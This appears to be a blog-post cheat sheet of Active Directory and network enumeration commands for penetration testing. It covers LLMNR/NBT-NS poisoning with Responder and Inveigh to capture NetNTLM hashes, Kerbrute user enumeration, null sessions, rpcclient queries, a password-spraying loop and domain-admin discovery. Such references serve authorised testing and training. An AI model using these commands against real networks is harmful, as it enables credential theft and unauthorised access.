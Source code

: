 ```yaml
---
layout: post
title: Commands & Hacks - Enumeration Tricks
toc: true
subtitle: Linux
comments: false
---
```


<b>Enumeration Tricks:</b> <br>

TCPdump:
```
tcpdump -i <interface>
```

Responder for DNS requests to identify unique hosts

Responder for LLMNR over UDP 5535 OR NBT-NS over UDP 137 to obtain NetNTLM Hash
```
responder -I <interface> -A
```

Fping Active Checking a Subnet:
```
fping -asgq 172.11.5.0/23
```
Enumerate hosts:
```
netdiscover -r <subnet> | awk '{print $1}'
```

Enumerate AD Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Using Inveigh for LLMNR/NBT-NS request poisoning
```
Import-Module .\inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
With valid domain credentials, Using CrackMapExec to obtain the password policy
```
crackmapexec smb 172.10.5.5 -u <user> -p <password> --pass-pol
```
Establishing a null session from windows
```
net use \\DC01\ipc$ "" /u:""
```
View windows account errors:
```
net use \\DC01\ip$ "" /u:guest
```
Internal Password Spraying through Linux:
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <dc> | grep Authority; done
```

Microsoft LAPS Enumeration:
```
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
Get-LAPSComputers
```
If SMB Null sessions, use rpcclient to enumerate AD:
```
rpcclient -U "" -N <dc>
```

RPCClient Enumeration:
```
enumdomusers
queryuser 0x444
```
Find Domain Admins with windapsearch:
```
python3 windapsearch.py --dc-ip <dc_ip> -u user@domain.local -p <password> --da
```
